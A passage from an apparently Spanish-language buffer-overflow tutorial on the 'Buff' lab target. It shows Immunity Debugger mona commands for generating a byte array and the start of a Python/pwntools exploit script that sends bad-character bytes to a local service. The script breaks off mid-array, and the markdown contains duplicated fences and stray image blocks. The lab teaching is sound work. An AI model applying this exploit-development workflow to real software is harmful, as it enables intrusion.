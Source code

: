 #### Etapa 5: Preparacion del codigo malicioso {-}

Como atacante, no queremos que el programa nos interprete una serie de **C** pero un codigo malicioso en caracteres Hexadecimal.
El problema que puede surgir, es que algunos caracteres no se logren interpretar por el programa. Estos carateres son llamados **BadChars**.
Tenemos que empezar por buscar estos **BadChars**.

1. Configurar el entorno de trabajo con mona

    A bajo de la ventana del Immunity Debugger, podemos entrar commandos. Aqui creamos un directorio para poder trabajar correctamente

    -

```bash
 !mona config -set workingfolder C:\Users\S4vitar\Desktop\%p 
```

    ```{r, echo = FALSE, fig.cap="Mona Set working directory", out.width="90%"}
        knitr::include_graphics("images/Buff-mona_set_wdir.png")
    ```

1. Utilizamos mona para crear una lista de todos los caracteres en Hexadecimal

    ```bash
    !mona bytearray -cpb "\x00"
    quittamos de entrada el caracter

```bash
 x00 
```

 que es un **BadChars** bastante commun.
![Buff-moa_set_wdir](/assets/images/Buff-mona_set_wdir.png)

1. Enviamos todos estos caracteres en la pila para ver en que punto, o mejor dicho que carateres hacen quel programa pete.

    ```python
    #!/usr/bin/python3

    import socket
    import signal
    import pdb
    import sys
    import time

    from pwn import *
    from struct import pack

    # Variables globales
    remoteAddress = "127.0.0.1"

    def executeExploit():
        badChars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"